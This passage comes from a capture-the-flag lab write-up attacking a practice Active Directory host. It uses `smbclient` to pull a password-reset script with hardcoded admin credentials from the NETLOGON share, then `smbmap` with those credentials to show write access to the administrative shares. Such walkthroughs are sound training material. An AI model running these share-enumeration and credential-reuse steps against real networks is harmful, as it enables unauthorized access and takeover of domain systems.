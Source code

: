 - We can't do much here anymore, so log out and do more enumeration. Use `smbclient` to get access to share `NETLOGON` and download the file with passwords.

  ```
  smbclient \\\\10.10.205.21\\NETLOGON -U vulnnet-rst.local\\t-skid
  Password for [VULNNET-RST.LOCAL\t-skid]:
  Try "help" to get a list of possible commands.
  smb: \> pwd
  Current directory is \\10.10.205.21\NETLOGON\
  smb: \> ls
    .                                   D        0  Tue Mar 16 23:15:49 2021
    ..                                  D        0  Tue Mar 16 23:15:49 2021
    ResetPassword.vbs                   A     2821  Tue Mar 16 23:18:14 2021
  
                  8771839 blocks of size 4096. 4536085 blocks available
  smb: \> get ResetPassword.vbs 
  getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (3.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
  smb: \> exit
  
  mousepad ResetPassword.vbs
  
  Option Explicit
  
  Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
  Dim strUserDN, objUser, strPassword, strUserNTName
  
  ' Constants for the NameTranslate object.
  Const ADS_NAME_INITTYPE_GC = 3
  Const ADS_NAME_TYPE_NT4 = 3
  Const ADS_NAME_TYPE_1779 = 1
  
  If (Wscript.Arguments.Count <> 0) Then
      Wscript.Echo "Syntax Error. Correct syntax is:"
      Wscript.Echo "cscript ResetPassword.vbs"
      Wscript.Quit
  End If
  
  strUserNTName = "a-whitehat"
  strPassword = "bNdKVkjv3RR9ht"
  [SNIP!]
  ```

- Well, I used these credentials to get to system flag but couldn't read it but `smbmap` with them will do huge job.

  ```
  smbmap -H 10.10.205.21 -u a-whitehat -p bNdKVkjv3RR9ht

  [+] IP: 10.10.205.21:445        Name: 10.10.205.21              Status: ADMIN!!!   
          Disk                                                    Permissions     Comment
          ----                                                    -----------     -------
          ADMIN$                                                  READ, WRITE     Remote Admin
          C$                                                      READ, WRITE     Default share
          IPC$                                                    READ ONLY       Remote IPC
          NETLOGON                                                READ, WRITE     Logon server share 
          SYSVOL                                                  READ, WRITE     Logon server share 
          VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
          VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
  ```
